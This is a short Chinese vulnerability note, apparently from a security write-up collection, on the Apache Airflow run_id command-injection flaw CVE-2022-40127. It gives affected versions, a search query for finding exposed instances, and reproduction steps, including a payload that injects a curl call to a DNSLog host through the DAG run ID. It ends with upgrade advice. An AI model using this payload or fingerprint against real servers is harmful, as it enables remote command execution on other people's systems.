 # Apache Airflow 远程代码执行漏洞 CVE-2022-40127

## 漏洞描述

Apache Airflow 是一个可编程，调度和监控的工作流平台，基于有向无环图（DAG），Airflow 可以定义一组有依赖的任务，按照依赖依次执行。

当攻击者可访问到 Apache Airflow 的后台，且环境中存在默认 Example Dags，则可构造恶意请求借助 run_id 执行任意命令。

## 漏洞影响

```
Airflow < 2.4.0
```

## 网络测绘

```
app="APACHE-Airflow"
```

## 漏洞复现

登录 Airflow，在任意 DAG 行，点击 Actions 列的三角符号，再点击“Trigger DAG w/ config”。

进入配置，在 Run id (Optional) 处输入 Payload：

```
{"lab":"\";curl `uname`.****.dnslog.pw;\""}
```

在 DNSLog 查看回显。

## 修复建议

官方已发布版本 2.4.3，可升级 Apache Airflow 版本到 2.4.0 或以上，或者停用默认 Dags。